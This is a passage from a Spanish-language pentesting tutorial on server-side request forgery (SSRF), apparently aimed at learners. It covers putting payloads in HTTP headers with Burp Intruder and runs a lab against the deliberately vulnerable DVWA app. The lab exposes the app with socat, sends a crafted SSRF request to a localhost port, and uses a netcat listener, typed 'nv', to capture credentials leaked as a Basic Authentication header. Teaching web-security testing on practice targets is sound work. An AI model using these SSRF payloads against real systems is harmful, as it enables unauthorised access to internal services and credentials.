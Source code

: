 * A continuación, analizará la etiqueta IMG e intentará obtener la imagen remota sin saber que no existe
* Las cargas útiles SSRF se pueden insertar en los encabezados de solicitud HTTP. Puedes, por ejemplo, colocar tu dominio en cualquier encabezado HTTP y buscar la resolución HTTP o DNS

> en BURP intruder puedes alimentarlo con una lista de todos los encabezados HTTP y asignar tu dominio a cada uno de ellos. Es posible que algunos de los proxies intermedios intenten resolver estos dominios.

**Estructura de la URL**

https://chromium.googlesource.com/chromium/src/+/master/docs/security/url\_display\_guidelines/url\_display\_guidelines.md

```
https://user:pass@sub.example.com:8080/path?query#fragment
```

**Ejemplo de SSRF**

https://github.com/ethicalhack3r/DVWA

Usaremos el módulo de inclusión de archivos, que es similar a las funcionalidades de recuperación de **archivos de** una aplicación web. DVWA tiene que ejecutarse en modo **de baja** seguridad.

* Queremos proxy de nuestros requets a través de BURP

Instalar socat

```
apt install socat
```

A continuación, la DVWA se expone a través del reenvío de puertos mediante socat, el puerto externo 800 se conectará al interno 80. Esto expondrá su aplicación vuln al mundo exterior

Adelante:

```
sudo socat tcp-listen:800,fork tcp:127.0.0.1:80

# Now its exposed 
```

Podemos intentar iniciar un oyente en netcat y obtener su dirección a través de una solicitud GET

```
GET /DVWA/vulnerabilities/f?page=http://test:pwd@127.0.0.1:21/a HTTP/1.1
```

#### Forzar la autenticación <a href="#forcing-authentication" id="forcing-authentication"></a>

```
nv -lvnp 21

# the back-end used the username:password combination as a Basic Authentication header! 
# This means, when issuing an arbitrary request, we can also do it to like basic authentication protected resources
```
